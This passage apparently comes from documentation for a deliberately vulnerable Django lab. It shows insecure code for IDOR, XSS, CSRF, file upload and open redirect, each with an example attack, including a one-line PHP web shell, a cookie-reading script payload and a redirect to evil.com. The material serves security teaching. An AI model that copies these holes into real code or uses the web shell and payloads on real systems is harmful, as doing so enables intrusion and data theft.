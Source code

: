 ### 3. Insecure Direct Object Reference (IDOR)
```python
# No authorization check
def view_profile(request, user_id):
    user = User.objects.get(id=user_id)
    return render(request, 'profile.html', {'user': user})
    
# Attack
http://localhost:8093/profile/1  # View admin profile
http://localhost:8093/profile/2  # View other users
```

### 4. Cross-Site Scripting (XSS)
```django
<!-- Unsafe template -->
<div>
    {{ user_input|safe }}  <!-- Bypasses escaping -->
</div>

<!-- Attack -->
<script>alert(document.cookie)</script>
```

### 5. Cross-Site Request Forgery (CSRF)
```python
# CSRF protection disabled
@csrf_exempt
def transfer_money(request):
    amount = request.POST.get('amount')
    to_user = request.POST.get('to_user')
    # Process transfer
```

### 6. Insecure File Upload
```python
def upload_file(request):
    file = request.FILES['file']
    # No validation
    with open(f'uploads/{file.name}', 'wb') as f:
        f.write(file.read())
        
# Attack - Upload shell
shell.php: <?php system($_GET['cmd']); ?>
```

### 7. Open Redirect
```python
def login(request):
    next_url = request.GET.get('next')
    # No validation
    return redirect(next_url)
    
# Attack
http://localhost:8093/login?next=http://evil.com
```
